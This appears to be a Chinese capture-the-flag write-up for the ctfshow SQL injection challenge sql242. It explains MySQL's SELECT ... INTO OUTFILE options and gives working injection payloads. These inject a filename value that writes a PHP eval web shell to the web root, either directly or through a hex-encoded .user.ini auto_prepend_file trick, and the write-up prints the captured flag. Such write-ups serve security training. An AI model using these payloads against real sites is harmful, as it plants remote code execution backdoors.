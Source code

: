 # ctfshow-sql242



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";

```



 返回逻辑 

```
  //无过滤



```





```mysql
姿势盲区

SELECT ... INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        [export_options]

export_options:
    [{FIELDS | COLUMNS}
        [TERMINATED BY 'string']//分隔符
        [[OPTIONALLY] ENCLOSED BY 'char']
        [ESCAPED BY 'char']
    ]
    [LINES
        [STARTING BY 'string']
        [TERMINATED BY 'string']
    ]





“OPTION”参数为可选参数选项，其可能的取值有：

`FIELDS TERMINATED BY '字符串'`：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。

`FIELDS ENCLOSED BY '字符'`：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。

`FIELDS OPTIONALLY ENCLOSED BY '字符'`：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况下不使用任何符号。

`FIELDS ESCAPED BY '字符'`：设置转义字符，只能为单个字符。默认值为“\”。

`LINES STARTING BY '字符串'`：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。

`LINES TERMINATED BY '字符串'`：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。



看完了这些东西，就知道该怎么写马了。这三个选项都可以：

FIELDS TERMINATED BY
LINES STARTING BY
LINES TERMINATED BY




网页路径
api/dump.php

filename=test.php' LINES STARTING BY '<?php eval($_POST[0]);?>'#

蚁剑连接
http://4d770825-5b11-42c6-a594-9317464c6121.challenge.ctf.show:8080/dump/test.php

根目录下/flag.here
ctfshow{9bf99e5e-3bcd-4082-abf9-d952d5ee809a}



也可以设置user.ini


filename=.user.ini' LINES STARTING BY ';' TERMINATED BY 0x000d0a6175746f5f70726570656e645f66696c653d6a652e6a70670d0a#
(/*其中有个回车*/
    auto_prepend_file=je.jpg)

filename=je.jpg' LINES TERMINATED BY 0x3c3f706870206576616c28245f504f53545b305d293b3f3e#
(<?php eval($_POST[0]);?>)


```























